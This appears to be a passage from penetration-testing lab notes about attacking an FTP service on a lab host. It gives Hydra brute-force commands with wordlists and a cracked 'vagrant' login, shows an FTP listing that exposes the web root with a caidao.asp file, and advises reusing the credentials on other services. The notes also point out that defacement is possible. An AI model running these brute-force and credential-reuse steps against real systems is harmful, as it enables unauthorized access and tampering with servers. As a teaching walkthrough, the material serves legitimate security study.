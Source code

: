 ```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.28.97 ftp
```

Do store these credentials as we'll be testing them and seeing whether they can be used to login into other services. The reason for that is it all comes down to the password reuse vulnerability within companies where employees and individuals tend to reuse passwords for multiple services, primarily because remembering passwords is very difficult. So make sure to store that information.

`-I`: skip waiting.

```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.28.97 ftp -I
```

We can also utilize the unix_users to see whether any of the usernames can be password. 

```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.28.97 ftp -I
```

```
[21][ftp] host: 10.0.28.97 login: vagrant password: vagrant
```

We can login to the ftp server.

```
ftp 10.0.28.97 21

administrator
vagrant
```

We are currently utilizing the ftp client. And the syntax for the ftp client is very simple.

We can use the standard Unix or Linux directory commands or file system commands.

```
ftp> ls

caidao.asp
hahaha.jpg
index.html

ftp> exit
```

That will list out the contents of the ftp server.

What this means is that the ftp server directly takes us to the directory of the web server or where the web application is stored.

And that means that we pretty much can deface the web application or modify the contents of the web application.

We have an asp file here. Microsoft IIS supports various file extensions, and one of them is asp. And that means that it can execute asp files.

```
http://10.0.28.97/caidao.asp
```
